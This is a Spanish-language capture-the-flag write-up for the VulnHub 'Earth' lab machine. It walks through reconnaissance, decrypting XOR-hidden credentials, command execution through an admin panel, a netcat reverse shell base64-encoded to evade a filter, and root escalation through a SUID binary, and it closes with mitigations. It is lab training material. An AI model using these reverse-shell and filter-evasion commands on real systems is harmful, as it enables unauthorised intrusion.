 # CTF EARTH LOCAL  
**Objetivo:** Linux 192.168.131.130 (Earth Local)  

 <div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/planeterath.jpg" width="550" alt="Earth">
</div>

---

## SECUENCIA DE ATAQUE EXPLICADA  

### **FASE 1: PREPARACIÓN**  
```bash
ip a
```
> Verificamos nuestra IP local para identificar la interfaz en uso (eth0).  

```bash
netdiscover -i eth0
```
> Escaneamos la red para encontrar la IP objetivo. Resultado: **192.168.131.130**.  

---

### **FASE 2: RECONOCIMIENTO**  
```bash
sudo nmap -sV -sC -T4 192.168.131.130
```
> Escaneo de servicios y versiones con scripts básicos. Puertos encontrados:  
> - 22/tcp → SSH (OpenSSH 8.6)  
> - 80/tcp → HTTP (Apache 2.4.51)  
> - 443/tcp → HTTPS (Apache 2.4.51 con SSL y certificados para earth.local y terratest.earth.local)  

**Ajuste de /etc/hosts**  
```
192.168.131.130 earth.local terratest.earth.local
```
> Esto permite acceder por nombre de dominio en vez de IP.  

---

### **FASE 3: ENUMERACIÓN WEB**  
```bash
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt
```
> Descubrimos `/admin` → Panel de login.  

```bash
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
> Detectamos `/robots.txt` que apunta a `/testingnotes.txt`.  

**Contenido notes:**  
- Cifrado usado: XOR  
- Usuario: `terra` (para el panel admin)  
- Archivo `testdata.txt` usado como clave de prueba.  

---

### **FASE 4: OBTENCIÓN CREDENCIALES**  
> Vamos a `testdata.txt` y lo usamos como **KEY** en [CyberChef](https://gchq.github.io/CyberChef/).  
> Método: XOR, salida Hex.  
> Desencriptamos los mensajes ocultos en la página principal de `earth.local`.  

**Resultado:**  
```
Usuario: terra  
Pass: earthclimatechangebad4humans
```

---

### **FASE 5: ACCESO INICIAL**  
> Entramos a `http://earth.local/admin` con credenciales obtenidas.  
> Tenemos un campo de ejecución de comandos como usuario `apache`.  

```bash
whoami
ls /var/earth_web
cat /var/earth_web/user_flag.txt
```
> Obtenemos **FLAG USER**.  

---

### **FASE 6: SHELL REVERSA**  
En máquina atacante:  
```bash
nc -lvnp 4444
```
> Ponemos un listener para recibir la conexión.  

En el panel web:  
```bash
echo 'nc -e /bin/bash 192.168.131.128 4444' | base64
```
> Convertimos el comando a Base64 para evadir el filtro.  

```bash
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==' | base64 -d | bash
```
> Decodificamos y ejecutamos → conexión establecida.  

Mejoramos la shell:  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

### **FASE 7: ESCALADA DE PRIVILEGIOS**  
```bash
find / -perm -u=s 2>/dev/null
```
> Encontramos binario SUID `/usr/bin/reset_root`.  

- Lo analizamos con `ltrace` → requiere 3 ficheros inexistentes.  
- Creamos los ficheros:  
```bash
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```
- Ejecutamos de nuevo → contraseña root reseteada a `Earth`.  

```bash
su root
cat /root/root_flag.txt
```
> Obtenemos **FLAG ROOT**.  

---

## RESUMEN VULNERABILIDADES  
- **Credenciales en código fuente cifrado** (XOR)  
- **Panel admin** accesible sin restricciones de IP  
- **Ejecución remota de comandos**  
- **SUID vulnerable** que permite resetear contraseña root  

---

## MEDIDAS DE MITIGACIÓN  
- Eliminar credenciales de código  
- Restringir panel admin por IP  
- Eliminar binarios SUID innecesarios  
- Auditoría de cifrados y backups

---

## EVIDENCIAS  
- FLAG USER: `/var/earth_web/user_flag.txt`  
- FLAG ROOT: `/root/root_flag.txt`  
- Credenciales: `terra / earthclimatechangebad4humans`  
- Archivos clave: `testdata.txt`, `reset_root`

---

## MV
https://www.vulnhub.com/entry/the-planets-earth,755/

---
